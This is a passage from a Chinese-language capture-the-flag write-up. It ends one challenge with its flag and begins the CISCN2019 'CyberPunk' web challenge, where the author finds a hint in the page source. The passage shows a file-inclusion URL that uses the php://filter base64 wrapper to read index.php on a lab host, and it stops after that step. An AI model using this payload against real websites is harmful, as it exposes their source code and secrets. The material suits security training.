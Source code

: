 重组一下, 结果是: `pctf{hey_boys_im_baaaaaaaaaack!}`, 直接就是最终 flag。

> ~神人题目~

## [CISCN2019 华北赛区 Day1 Web5]CyberPunk

### 题解

#### 文件包含

打开发现是一个下单+增删改查界面, 打开源码, 发现在主页末尾有提示:

![13-1.png](13-1.png)

用伪协议读出来:

```
http://5ec022d3-25df-43c9-b02a-893de2e98b98.node5.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=index.php
```

![13-2.png](13-2.png)
